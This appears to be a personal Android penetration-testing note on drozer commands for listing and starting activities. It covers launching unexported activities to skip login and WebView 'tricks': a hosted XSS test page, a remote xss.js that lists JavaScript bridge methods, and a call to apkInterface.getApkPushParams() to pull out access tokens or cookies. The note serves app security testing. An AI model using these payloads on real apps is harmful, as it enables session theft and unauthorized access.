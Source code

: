 # Activities

Activities are basically the GUI screen that we seen in an android app.

- `run [app.activity.info](http://app.activity.info)-a <package-name>`
    - Don't use the `-u` flag. It's for activity which are not exported.
    - Non-exported activities might also give you something juicy but usually, it requires root permissions.
- start activity is always exported because an application has to be started when someone clicks on the ICON.
    - It have intent filter for the launcher.
- If you want to invoke an activity:
    - `run app.activity.start --component <package-name> <activity-name>`

In addition to provoking any exported activity with drozer, also read the source code and see what is being done with `onCreate()`  method. Because every time activity is called there is an onCreate() method called. So maybe see what they do it with the data(if they accept any) or are there any `if/else` condition that is placed.

Also check if the activity sends any result back. This is done by `setResult()` . So see if there any call to that function and try to find out what's being sent back to the caller.

These are better know as `fragments` . They are just small UI task that kind of help the activities. 

**NOTE**: It's possible to try to provoke the `unexported` activities, because they might give you something. Like say if there is a `SETTING ACTIVITY` which shows you the setting of the application etc. Now that is only to be displayed once the user is logged in but it might be possible to provoke them with having a user to do login.


## Tricks

If any activity allows loading any URL in `webView` then try to read the JS file.

On  server host the following code:

```jsx
<html>
    <head>
        <title>Test</title>
    </head>
    <body>
        <img src='http://<server-url>/img.png' onerror=alert(1)>
    </body>
</html>
```

And then try to run the activity if alert(1) is loaded it's possible that you might see something good as well.

To test if it's possible to read the internal files try the following:

1) Make a file name `xss.html`  with the following code:

```jsx
<html>
    <head>
        <title>Test</title>
    </head>
    <body>
        <h1>Test</h1>
        <script src="http://<url>/xss.js"></script>
    </body>
</html>
```

2) In `xss.js` try with the following code:

```jsx
Object.getOwnPropertyNames(window).forEach(function(v, x) { document.writeln(v); });
```

It should give you loads of functions, scroll to the bottom and see if you have anything like `apkInterface` if yes then you can try the following command:

```jsx
Object.getOwnPropertyNames(window.apkInterface).forEach(function(v, x) { document.writeln(v); });
```

And if this gives some output then try running:

```jsx
document.write(apkInterface.getApkPushParams());
```

This might give you payload that contains access token or any kind of cookies.

Another way of checking is that see if 

- `settings.setJavaScriptEnabled(true);`
- DOM setting is enabled or not, it would look similar to line as javascriptEnabled.
- Also check for `webSettings().setAllowFileAccess(true);`  if it's false then you won't be able to read the files.


* Always look for permissions
